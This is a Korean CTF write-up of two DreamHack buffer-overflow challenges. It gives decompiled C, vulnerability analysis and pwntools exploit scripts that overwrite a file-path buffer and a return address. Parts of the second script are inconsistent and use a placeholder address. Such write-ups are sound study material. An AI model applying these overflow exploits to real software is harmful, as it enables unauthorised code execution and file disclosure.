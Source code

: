 # 📁 DreamHack BOF 문제 분석

## 📂 디렉토리 구조

```
bof/
├── deploy/
│   ├── bof        <-- 공격 대상 실행 파일
│   ├── cat        <-- 일반 출력용 실행 파일
│   ├── flag       <-- 플래그 파일 (공격 목표)
├── Dockerfile     <-- 문제 환경 설정 파일
```

## 🔍 main 함수 디컴파일 결과

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[128]; // [rsp+0h] [rbp-90h] BYREF
  char v5[16];  // [rsp+80h] [rbp-10h] BYREF

  init(argc, argv, envp);           // 초기화 함수 (무시 가능)
  strcpy(v5, "./cat");              // v5에 기본 실행 경로 설정
  printf("meow? ");                 // 사용자 입력 요청
  __isoc99_scanf("%144s", v4);     // 144바이트 입력 (버퍼 초과 가능)
  read_cat(v5);                     // v5의 경로를 실행 대상으로 사용
  printf("meow, %s :)\n", v4);      // 사용자 입력 에코 출력
  return 0;
}
```

## 🧨 취약점 분석

- `v4[128]`에 대해 `scanf("%144s")` 사용 → **버퍼 오버플로우 발생 가능**
- `v5[16]`은 `v4` 바로 뒤에 위치 → **v5 메모리 오염 가능**
- `v5`는 `read_cat()` 함수의 인자로 사용됨 → **임의 파일 경로 조작 가능**
- 공격자는 `"/home/bof/flag"`로 `v5`를 덮어 `flag` 파일 출력 가능

## 🔍 read_cat 함수 디컴파일 결과

```c
int __fastcall read_cat(const char *a1)
{
  char s[128];
  ssize_t v3;
  int fd;

  memset(s, 0, sizeof(s));
  fd = open(a1, 0);                 // 파일 열기
  if (fd == -1) {
    puts("open() error");
    exit(1);
  }

  v3 = read(fd, s, 0x80uLL);        // 최대 128바이트 읽기
  if (v3 == -1) {
    puts("read() error");
    exit(1);
  }

  puts("=======================");
  puts(s);                          // 파일 내용 출력

  if (close(fd)) {
    puts("close() error");
    exit(1);
  }
  return 0;
}
```

## 🧪 공격 시나리오 요약

1. `scanf`를 이용해 144바이트 입력 → `v4`를 넘쳐서 `v5` 덮음
2. `v5`에 `"/home/bof/flag"` 문자열 덮기
3. `read_cat(v5)` 호출 시 플래그 파일을 열고 출력

## 💡 최종 페이로드 예시 (Python pwntools)

```python
from pwn import *

p = remote("host3.dreamhack.games", 23515)

payload = b"A" * 128
payload += b"/home/bof/flag"

p.sendlineafter(b"meow? ", payload)
p.interactive()
```

# 🛠️ baby-bof 취약점 분석

## 🔍 개요

---

## 📄 코드 구조 요약

```c
char name[16];                     // 오직 16바이트 크기의 버퍼
scanf("%15s", name);              // 입력은 제한되어 있으나,

for (idx = 0; idx < count; idx++) {
  *(long*)(name + idx*8) = value; // 💥 임의 메모리 덮기 가능
}
```

---

## ⚠️ 취약점 상세 분석

### 🔸 1. write-what-where 원시 취약점
- `(long*)(name + idx * 8) = value;` 구문을 통해
- `count` 값이 클 경우 `name` 배열 범위를 벗어나 스택 영역을 덮게 됨

### 🔸 2. return address 덮기
- `value`에 `win()` 함수 주소를 넣고,
- `count`로 main 함수의 리턴 주소까지 덮을 수 있음

### 🔸 3. 보호 기법 무력화
| 기법 | 상태 |
|------|------|
| Stack Canary | ❌ 비활성 (`-fno-stack-protector`)
| PIE (ASLR)   | ❌ 주소 고정 (`-no-pie`)
| NX Bit       | ⭕ 실행 불가 영역 보호 가능 (ROP는 우회 필요 없음)

---

## 🧪 공격 시나리오

1. `printf("the main function doesn't call win function (0x%lx)!\n", win);` → win 주소 노출
2. `value`에 win 주소 입력
3. `count` 값을 통해 스택 상의 리턴 주소까지 overwrite
4. `main()` 종료 시 → `win()` 실행됨

---

## 💣 익스플로잇 요약

```python
from pwn import *

p = process("./baby-bof")

win_addr = 0xdeadbeefcafebabe  # ← 실제 실행 시 노출된 주소 입력
p.sendlineafter("name: ", "A")
p.sendlineafter("hex value: ", str(win_addr))
p.sendlineafter("integer count: ", "16")  # 리턴 주소까지 3개 덮는다고 가정

p.interactive()
```